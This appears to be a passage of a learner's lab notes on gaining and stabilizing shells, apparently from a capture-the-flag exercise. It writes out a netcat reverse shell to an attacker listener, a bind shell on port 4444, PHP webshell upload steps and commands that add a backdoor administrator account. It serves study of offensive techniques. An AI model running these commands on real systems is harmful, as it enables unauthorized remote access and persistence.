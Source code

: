 	`net user <username> <password> /add`

	`net localgroup administrators <username> /add`

*Note:*
	Reverse and Bind shells are an essential technique for gaining remote code execution on a machine, however, they will never be as fully featured as a native shell. Ideally we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitation of the target.

## **Practice & Examples**

1) **Navigate to `/usr/share/webshells/php/php-reverse-shell.php` in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell // Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on your own machine.**

	Direct to the kali pre-installed webshell directory and edit the file php-reverse-shell.php, change the IP to your local into IP add and rename to rshell.php:
	![[Pasted image 20240820053521.png]]

	Visting the target machine and submit the shell:
	![[Pasted image 20240820053603.png]]

	Start listening on the attacking machine:
	![[Pasted image 20240820053634.png]]

stabilize the netcat:
1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` 
2. `export TERM=xterm`
3. Background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`


2)  **Experiment with bind and reverse netcat shells.**

	### **Bind Shell:**
	- **Concept**: In a bind shell, the target machine opens a specific port and listens for incoming connections. The attacker then connects to this open port to gain access to the command line on the target machine.

	- **Process**:
    1. The target machine runs a command to bind a shell to a specific port.
    2. The attacker connects to the target machine's IP address on that port.
    3. Once connected, the attacker can execute commands on the target machine through the shell.
    
- **Example Command**:
    `nc -lvp 4444 -e /bin/bash`
    
    Here, `nc` (netcat) listens on port `4444` and executes `/bin/bash` when a connection is established.

	### **Reverse Shell:**
	- **Concept**: In a reverse shell, the target machine initiates a connection back to the attacker's machine. The attacker then gains access to the command line on the target machine through this connection.
